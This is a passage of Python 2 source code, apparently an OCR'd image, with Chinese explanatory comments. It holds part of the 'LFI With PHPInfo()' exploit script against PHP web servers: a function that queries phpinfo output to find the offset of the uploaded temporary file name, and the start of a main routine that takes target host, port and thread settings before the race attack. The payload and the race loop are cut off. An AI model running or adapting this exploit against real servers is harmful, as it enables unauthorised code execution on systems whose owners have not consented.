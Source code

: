 ```python
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)                      #循环接受4096字节直到接收完毕
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    print "found %s at %i" % (d[i:i+10],i)   #进行试探得到文件名的偏移量
    # padded up a bit
    return i+256                             #为提高准确性扩大了范围           

def main():

    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
```